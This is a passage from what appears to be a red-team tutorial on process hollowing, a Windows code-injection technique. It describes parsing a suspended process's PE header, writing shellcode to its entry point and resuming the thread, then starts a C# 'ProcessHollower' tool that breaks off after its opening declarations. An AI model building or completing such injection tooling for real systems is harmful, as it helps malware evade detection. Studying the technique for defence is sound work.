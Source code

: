 4\. Read 200 bytes of the loaded EXE image and parse PE structure to get the EntryPoint address.

![](/.gitbook/assets/007.png)

5\. Write the shellcode to the EntryPoint address and resume thread execution.

![](/.gitbook/assets/008.png)

{% code title="ProcessHollower.cs" %}
```csharp
using System;
using System.Runtime.InteropServices;

namespace ProcessHollower
{
    class Program
    {
        public const uint CREATE_SUSPENDED = 0x4;
        public const int ProcessBasicInformation = 0;

        [StructLayout(LayoutKind.Sequential, CharSet = CharSet.Ansi)]
        struct STARTUPINFO
        {
            public Int32 cb;
            public IntPtr lpReserved;
            public IntPtr lpDesktop;
            public IntPtr lpTitle;
```